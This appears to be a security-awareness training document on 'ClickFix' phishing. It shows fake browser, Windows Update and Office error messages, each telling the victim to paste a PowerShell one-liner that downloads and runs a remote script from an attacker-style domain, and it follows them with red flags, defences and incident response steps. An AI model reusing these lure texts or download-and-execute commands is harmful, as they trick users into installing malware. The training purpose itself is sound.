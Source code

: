 # ClickFix Attack Examples

This document shows examples of how cybercriminals deliver PowerShell-based attacks through "ClickFix" social engineering tactics. These are **EXAMPLES FOR TRAINING ONLY**.

## ⚠️ WARNING - DO NOT RUN THESE COMMANDS

The following are examples of malicious instructions that attackers include in phishing emails or fake error messages. **NEVER execute these commands outside of controlled training environments.**

## Common ClickFix Scenarios

### 1. Fake Browser Error
```
🚨 CRITICAL BROWSER ERROR 🚨

Your browser has encountered a security error. To fix this issue:

1. Press Windows + R
2. Copy and paste this command:
   powershell -ep bypass -c "iex (iwr 'https://fix-browser-error.com/repair.ps1').Content"
3. Press Enter

This will automatically repair your browser configuration.
```

### 2. Fake Windows Update Error
```
Windows Update Error 0x80070643

To resolve this error:
1. Right-click Start button
2. Select "Windows PowerShell (Admin)"
3. Copy and paste:
   powershell.exe -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -Uri 'https://microsoft-fix.net/update-repair.ps1' -UseBasicParsing).Content"
4. Press Enter and wait for completion
```

### 3. Fake Office 365 Fix
```
Microsoft Office activation failed.

Quick Fix:
1. Press Win+R
2. Paste: powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('https://office-activate.com/fix.ps1')"
3. Press Enter
```

## Training Commands (Safe Versions)

For training purposes, here are safe versions that execute the local simulation:

### Local Execution (Safe)
```powershell
# Execute local simulation script
powershell -ExecutionPolicy Bypass -File ".\simalicious.ps1"

# Or with Invoke-Expression pattern (local file)
powershell -ep bypass -c "iex (Get-Content '.\web-version.ps1' -Raw)"
```

### Remote Execution Simulation (Training)
If hosting the web-version.ps1 on a training server:
```powershell
# Replace YOUR-TRAINING-SERVER with actual training server
powershell -ep bypass -c "iex (iwr 'https://YOUR-TRAINING-SERVER/web-version.ps1').Content"
```

## Red Flags to Watch For

Teach users to recognize these warning signs:

### Suspicious Commands
- `powershell -ep bypass` or `-ExecutionPolicy Bypass`
- `Invoke-Expression` or `iex`
- `Invoke-WebRequest` or `iwr` downloading scripts
- `.DownloadString()` methods
- Shortened URLs or suspicious domains

### Social Engineering Tactics
- Urgent language ("CRITICAL", "IMMEDIATE ACTION REQUIRED")
- Fake error messages with technical-sounding codes
- Instructions to bypass security (disable antivirus, etc.)
- Requests to run PowerShell as administrator
- Claims to be from Microsoft, tech support, etc.

### Delivery Methods
- Email attachments with instructions
- Fake pop-up windows on websites
- Tech support scam phone calls
- Malicious QR codes
- Social media messages

## Training Exercises

### Exercise 1: Recognition
Show participants examples of ClickFix emails and have them identify:
- The malicious command
- Social engineering tactics used
- Red flags they should notice

### Exercise 2: Safe Execution
In a controlled environment:
1. Execute the safe simulation scripts
2. Observe the behavior
3. Discuss what real malware would do differently

### Exercise 3: Reporting
Practice incident response:
- How to report suspicious emails
- How to check if a script was executed
- How to contain potential infections

## Defense Strategies

### Technical Controls
- PowerShell execution policies
- Application whitelisting
- Email security gateways
- Endpoint detection and response (EDR)
- User Account Control (UAC)

### User Education
- Regular security awareness training
- Phishing simulation exercises
- Clear reporting procedures
- "When in doubt, don't click" mentality

### Organizational Policies
- Restrict PowerShell execution
- Block .ps1 files in email
- Implement least privilege access
- Regular security assessments

## Incident Response

If a user reports executing a suspicious PowerShell command:

1. **Immediate Actions**
   - Disconnect from network
   - Document what was executed
   - Preserve evidence

2. **Assessment**
   - Check running processes
   - Look for persistence mechanisms
   - Scan for indicators of compromise

3. **Containment**
   - Isolate affected systems
   - Reset credentials
   - Apply security patches

4. **Recovery**
   - Restore from clean backups
   - Rebuild compromised systems
   - Update security controls

Remember: The best defense is prevention through education and technical controls working together!